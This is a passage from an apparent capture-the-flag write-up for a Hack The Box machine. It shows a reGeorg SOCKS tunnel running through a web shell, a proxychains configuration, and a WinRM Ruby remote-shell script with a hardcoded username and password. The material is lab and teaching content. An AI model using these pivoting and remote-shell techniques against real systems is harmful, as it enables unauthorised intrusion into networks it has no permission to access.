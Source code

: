       willem@sensepost.com / @_w_m__       
      sam@sensepost.com / @trowalts
      etienne@sensepost.com / @kamp_staaldraad       
    
    
    [INFO   ]  Log Level set to [INFO]                                                                  
    [INFO   ]  Starting socks server [127.0.0.1:1080], tunnel at [http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/a.aspx]
    [INFO   ]  Checking if Georg is ready
    [INFO   ]  Georg says, 'All seems fine'
    

#### Connect over WinRm

First I’ll make sure that my `/etc/proxychains.conf` file is configured to use
the same port I gave reGeorg, 1080, and that quite mode is on so I don’t have
to see all the `|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:5985-<><>-OK`:

    
    
    root@kali# cat /etc/proxychains.conf | grep -vE "^#" | grep .
    strict_chain
    quiet_mode
    proxy_dns 
    tcp_read_time_out 15000
    tcp_connect_time_out 8000
    [ProxyList]
    socks4  127.0.0.1 1080
    

Next I’ll edit [Alamot’s WinRm ruby script](https://github.com/Alamot/code-
snippets/blob/master/winrm/winrm_shell_with_upload.rb) with the info for this
box, pointing it at localhost, the place I want it to connect once I’m through
the proxy. It’s also going to be very useful to have the version of the script
that includes file upload. I did make one update to the script. Where it
generates the prompt, if I am inside a hidden directory, the `gi` command
fails. I’ll add `-force` to fix that: `output = shell.run("-join($id,'PS
',$(whoami),'@',$env:computername,' ',$((gi -force $pwd).Name),'> ')")`:

    
    
    require 'winrm-fs'
    
    # Author: Alamot
    # To upload a file type: UPLOAD local_path remote_path
    # e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
    
    conn = WinRM::Connection.new(
      endpoint: 'http://127.0.0.1:5985/wsman',
      user: 'simple',
      password: 'ZonoProprioZomaro:-(',
      :no_ssl_peer_verification => true
    )
    